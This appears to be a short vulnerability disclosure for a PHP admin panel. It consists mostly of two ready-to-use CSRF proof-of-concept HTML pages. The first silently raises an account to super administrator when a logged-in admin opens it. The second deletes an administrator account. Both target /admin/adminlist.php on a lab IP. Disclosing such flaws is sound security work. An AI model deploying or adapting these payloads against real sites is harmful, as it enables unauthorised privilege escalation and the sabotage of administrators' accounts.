 ## CSRF
After the administrator logged in, open the following page poc：
one.html---General Management Upgraded to Super Administrator
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.108/admin/adminlist.php?do=modify" method="POST">
      <input type="hidden" name="admins" value="test" />
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="Submit" value="ä&#191;&#157;å&#173;&#152;" />
      <input type="hidden" name="action" value="modify" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
two.html---Delete an Administrator
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.108/admin/adminlist.php">
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="2" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
